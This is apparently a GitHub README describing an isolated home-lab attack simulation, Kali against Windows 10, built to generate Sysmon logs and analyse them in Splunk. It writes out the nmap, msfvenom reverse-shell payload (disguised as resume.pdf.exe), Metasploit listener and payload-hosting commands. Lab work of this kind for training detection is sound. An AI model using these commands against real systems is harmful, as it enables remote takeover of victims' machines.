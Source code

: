 # Home Lab Attack Simulation & Telemetry Generation
<p>This project was designed as a simulation of a real-world cyberattack, conducted in a virtual lab environment. Its primary goal is to demonstrate how endpoint telemetry can be generated, collected, and analyzed using widely available tools such as Sysmon and Splunk. This project helped me gain hands-on experience with attacker techniques, logging mechanisms, and security monitoring—all of which are essential for working in a SOC environment.</p>

# Prerequisites
<ul>
  <li>Kali Linux – As the attacker machine</li>
  <li>Windows 10 – As the target machine</li>
  <li>Splunk must be installed on the Windows VM.</li>
  <li>Sysmon must be installed using the Splunk Add-on for Sysmon and configured on the Windows VM to generate detailed logs</li>
</ul>

# Simulation
<p>To set up the lab, I used VirtualBox to run two virtual machines: Kali Linux (as the attacker) and Windows 10 (as the target). Both VMs were configured to use an "Internal Network" mode in VirtualBox to ensure isolated communication within the same virtual network. This configuration prevents interaction with the outside internet while allowing both machines to communicate securely.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/%F0%9F%9B%A1%EF%B8%8F%20Home%20Lab%20Attack%20Simulation%20&%20Telemetry%20Generation%20-%20visual%20selection.png?raw=true">
</p>

<p>To ensure stable communication and easier referencing, each virtual machine was assigned a static IP address. Kali Linux was configured with an IP address such as 192.168.56.100, while Windows 10 was assigned 192.168.56.110. These IPs fall within the same subnet and enable consistent access throughout the simulation. This setup ensures that tools like Nmap and Metasploit can reliably interact with the Windows VM during reconnaissance and exploitation.</p>

<p>The simulation begins with reconnaissance. Using Kali Linux, I performed a network scan with Nmap to discover open ports and services on the Windows target.</p>
<pre>
  nmap -A 192.168.56.110 -Pn
</pre>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Nmap.png?raw=true">
</p>
<ul>
  <p>The scan identified multiple open ports, including:</p>
  <li>135/tcp (Microsoft RPC)</li>
  <li>139/tcp (NetBIOS-SSN)</li>
  <li>445/tcp (Microsoft-DS)</li>
  <li>8000/tcp (Splunkd HTTP interface)</li>
  <li>8089/tcp (Splunkd management port)</li>
</ul>

<p>Next, I used msfvenom to generate a simple Meterpreter reverse shell payload:</p>

<pre>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.100 lport=4444 -f exe -o resume.pdf.exe</pre>

<p>This creates an executable file named resume.pdf.exe that, when executed, will attempt to connect back to the Kali Linux machine on port 4444.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Msfvenom.png?raw=true">
</p>

<p>I then set up a listener in Metasploit to catch the reverse shell:</p>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/msf6%20exploit.png?raw=true">
</p>
<pre>
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
exploit
</pre>

<p>To deliver the payload, I hosted it using a Python HTTP server:</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Hosting%20.png?raw=true">
</p>

<pre>python3 -m http.server 9999</pre>

<p>After disabling Windows Defender for this test, I downloaded and executed the payload on the Windows VM.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/download%20malicious.png?raw=true">
</p>


<p>I confirmed the reverse connection using the following command:</p>
<pre>netstat -anob</pre>

<p>
The result clearly showed an ESTABLISHED connection between the Windows machine and the Kali attacker machine on port 4444, with the process name resume.pdf.exe. This confirmed that the payload had successfully executed and connected back to the attacker:
</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/netstat.png?raw=true">
</p>

<p>To further validate this, I opened Task Manager and found that resume.pdf.exe was indeed running under the expected PID. This allowed me to correlate the netstat entry with a live process</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Taskmgr%201128%20PID.png?raw=true">
</p>

<p>At this point, Sysmon already installed and configured on the Windows machine. began recording detailed logs, including process creation, command-line activity, and network connections. These logs were forwarded to Splunk using a custom inputs.conf configuration.</p>

<p>I created a dedicated Splunk index called endpoint and installed the official Splunk Add-on for Sysmon to normalize event fields. Using Splunk Search Processing Language (SPL), I ran queries:</p>

<pre>index=endpoint process_name="resume.pdf.exe"</pre>

